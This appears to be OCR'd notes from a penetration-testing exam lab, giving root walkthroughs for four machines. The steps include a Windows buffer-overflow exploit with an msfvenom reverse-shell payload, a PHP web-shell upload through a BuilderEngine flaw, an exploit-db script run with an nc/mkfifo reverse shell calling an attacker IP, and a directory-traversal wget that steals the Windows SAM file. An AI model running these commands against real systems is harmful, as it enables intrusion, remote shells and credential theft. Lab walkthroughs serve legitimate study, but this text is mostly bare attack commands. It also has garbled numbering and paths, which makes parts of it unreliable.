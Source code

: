 ```bash
b0f-vic (.111)
```
Operating SystemWindows
Points25
Similar Machine (Root)VulnHub’s Brainpan
Steps to Root
1. Controlling Extended Instruction Pointer (EIP) Register - ruby
/usr/share/metasploit-framework/tools/pattern_create.rb -l 3000
1. Run the Debugger and run the application then run the exploit
2. Get the EIP value - ruby /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l
3000 -q XXXXXXXX
1. Identify Bad Characters by modifying the exploit and putting the byte array.
2. Redirecting Execution Flow using Mona modules
3. !mona modules - to list down all the modules
4. Then look for modules that has no memory protections such as ASLR or DEP
5. Then make sure that it doesn’t have bad characters in its address
6. The only module that is suited for my criteria is offsec_pwk_dll.dll
7.  Double click the chosen dll
8.  And input !mona find -s "\xff\xe4" -m offsec_pwk_dll.dll
9.  Get the instruction address of JMP ESP
10. Create a shell code - msfvenom -p windows/shell_reverse_tcp LHOST=192.168.XX.43
LPORT=1337 -f c -a x86 --platform windows -b "BAD CHARS HERE"
1.  Run the exploit
2.  Root shell!

```bash
Bob The Builder (.150)
```
Operating SystemLinux
Points10
Similar Machine (Root)VulnHub’s Sedna
Steps to Root
1. Port 481 Directory Bruteforce the site to find /build
2. It is a BuilderEngine 3.5.0 - Arbitrary File Upload -
https://www.exploit-db.com/exploits/40390
1. Modify the action attribute to point it to target machine
2. Upload PHP Shell
3. Access it on https://192.168.XX.150:481/build/files/shell.php
4. Root shell!

```bash
Locutus (.161)
```
Operating SystemWindows
Points10
Similar Machine (Root)
Steps to Root
1. Machine is vulnerable to https://www.exploit-db.com/exploits/46307
2. Run python 46307.py 192.168.XX.152 7337 “touch /tmp/f; rm /tmp/f; mkfifo /tmp/f; cat
/tmp/f | nc 192.168.XX.XX 1337 > /tmp/f”
1. Root shell!

```bash
Ashley Brown (.161)
```
Operating SystemWindows
Points10
Similar Machine (Root)
Steps to Root
1. Find the port for website
2. It is vulnerable to Directory Traversal and LFI -
https://www.exploit-db.com/exploits/23318
1. Get the SAM - wget
http://192.168.XX.161/..%5C..%5C..%5C..%5C..%5CWindows..%5CSystem32..%5Ccon
fig..%5CRegBack..%5CSAM.OLD -O sam.old